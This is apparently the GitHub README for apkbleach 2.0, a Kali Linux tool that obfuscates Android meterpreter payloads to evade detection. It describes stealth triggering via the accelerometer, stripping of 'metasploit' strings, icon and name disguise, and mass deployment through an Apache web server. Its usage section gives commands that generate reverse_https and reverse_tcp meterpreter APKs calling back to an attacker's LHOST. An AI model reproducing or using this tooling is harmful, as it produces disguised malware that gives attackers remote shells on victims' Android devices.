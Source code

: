 # apkbleach 2.0

**Update**

   11/24/2020:
   
      Fixed custom icon injection bug and jarsigner installation bug! Shout out to @VioletChan on youtube for reporting the bug.

![Screen shot of sofware image](https://github.com/graylagx2/Images/blob/master/apkbleach2_final.png)

**About:**

This software was developed specifically for Kali-Linux to obfuscate android payloads in attempts to evade detection. This software also automates the process of changing the app icon, changing the app name, signing the apk, aligning the apk and installing or upgrading apktool.

**Youtube instructional video:**

   https://www.youtube.com/watch?v=tqgscJ93LFw
   
**New Deployment UI feature**

![Screen shot of deployment image](https://github.com/graylagx2/Images/blob/master/apkbleach-deployment-ui.png)

**Features:**

1) User interface for deployment of payloads

2) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

3) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

4) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

5) Renames the application to the name you put chose as the ouput file

6) Scrubs the entire application of any mentions of the name "metasploit" , "stage" or "payload". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

7) Adds padnops to PAYLOAD

8) Signs apk with jarsigner. msfenom produces unsigned apps

9) Zip aligns apk

10) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

    apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk
    
    apkbleach -g android/meterpreter/reverse_tcp LHOST=address LPORT=port -s 3 --edit-permissions --deploy-all

     apkbleach --list-payloads
 
     apkbleach --list-icons
 
     apkbleach --clear-cache
 

**optional arguments:**

      -h, --help            show this help message and exit
  
      -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
                        
      -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
                        
      -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
                        
      -o [output/path/for/file.apk]
                        Path to output apk
                        
      --edit-permissions    Enables permission editing in apk's manifest
      
      --deploy-all          Deploys each available icon as a payload with the apache2 server with a web interface
  
      --list-payloads       List available icons
  
      --list-icons          List available icons
  
      --clear-cache         Allows prompt whether to keep package maintainers version apktool
  
**Install instructions:**

After cloning or downloading the repository cd into the apkbleach directory and run run install.sh

    cd apkbleach
    bash install.sh
    
or

    cd apkbleach
    chmod +x install.sh
    ./install.sh
